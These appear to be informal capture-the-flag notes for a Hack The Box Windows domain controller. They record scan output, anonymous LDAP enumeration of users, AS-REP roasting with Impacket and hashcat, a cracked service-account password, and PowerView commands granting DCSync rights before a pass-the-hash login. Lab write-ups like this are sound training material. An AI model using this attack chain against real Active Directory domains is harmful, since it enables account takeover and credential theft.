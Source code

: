 IP: 10.10.10.161
Nmap Scans:
Top 1000
```bash
PORT    STATE SERVICE      VERSION
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-20 14:46:55Z)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
464/tcp open  kpasswd5?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-security-mode: SMB: Couldn\'t find a NetBIOS name that works for the server. Sorry!
|_smb2-time: terERROR: Script execution failed (use -d to debug)

```
All Ports
```bash
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
```

smb is empty?

ldap time
See if it works
```bash
ldapsearch -h 10.10.10.161 -x
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 32 No such object
text: 0000208D: NameErr: DSID-0310021B, problem 2001 (NO_OBJECT), data 0, best 
 match of:
	''


# numResponses: 1
```

Get the Domain Name.
```bash
ldapsearch -h 10.10.10.161 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=htb,DC=local
namingContexts: CN=Configuration,DC=htb,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=htb,DC=local
namingContexts: DC=DomainDnsZones,DC=htb,DC=local
namingContexts: DC=ForestDnsZones,DC=htb,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

ldapsearch -h 10.10.10.161 -x -b "DC=htb,DC=local" > [[ldap-anon]]
 Groups
 ```bash
cat ldap-anon.md | grep -i memberof
memberOf: CN=Guests,CN=Builtin,DC=htb,DC=local
memberOf: CN=System Managed Accounts Group,CN=Builtin,DC=htb,DC=local
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=htb,DC=local
memberOf: CN=Users,CN=Builtin,DC=htb,DC=local
memberOf: CN=Guests,CN=Builtin,DC=htb,DC=local
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=htb,DC=local
memberOf: CN=Exchange Install Domain Servers,CN=Microsoft Exchange System Obje
memberOf: CN=Managed Availability Servers,OU=Microsoft Exchange Security Group
memberOf: CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,
memberOf: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=htb,DC=
memberOf: CN=Windows Authorization Access Group,CN=Builtin,DC=htb,DC=local
memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=htb,DC=local
memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=htb,DC=local
memberOf: CN=Users,CN=Builtin,DC=htb,DC=local
memberOf: CN=Users,CN=Builtin,DC=htb,DC=local
memberOf: CN=IIS_IUSRS,CN=Builtin,DC=htb,DC=local
memberOf: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=htb,DC=
memberOf: CN=Managed Availability Servers,OU=Microsoft Exchange Security Group
memberOf: CN=Windows Authorization Access Group,CN=Builtin,DC=htb,DC=local
memberOf: CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Group
```

Usersnames
[[personObject]]
```bash
ldapsearch -h 10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}'
requesting:
sebastien
lucinda
andy
mark
svc-alfresco
```
Create own password list cause rockyou is too good

magic
```bash
hashcat --force --stdout passwords.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule |sort -u | awk 'length($0) > 7'
```

Impacket time
SIDENOTE:
	GetNPUsers is just kerberoasting tl;dr windows sends hash for some dumb reason and now we have it
	SPNs use kerberos for authentication.
Use GetNPUsers and get kerberos hash crack with hashcat
password is s3rvice

use creds for smb (svc-alfresco:s3rvice)
```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

on box so Winpeas
nothing really so bloodhound cause active dir

but first we need ot put bloodhound on the box.
 smb server
 ```bash
 ./smbserver.py Name $(pwd) -smb2support -user kali -password kali
 ```

need to make the correct object on the box
```powershell
$pass = convertto-securestring 'kali' -AsPlainText -Force
$cred - New-Object System.Management.Automation.PSCredential('kali',$pass)
New-PSDrive - Name kali -PSProvider FileSystem -Credential $cred -Root \\10.10.14.23\Name
```

Its a graph
lets make our own user cause we can
add user to "Exchange Windows Permissions" with net group

PowerView time.
Do the object thing again
```powershell
$pass = convertto-securestring 'kali' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\kali',$pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity htb.local -Rights DCSync
```
dump sam
the login with psexec as admin with the hash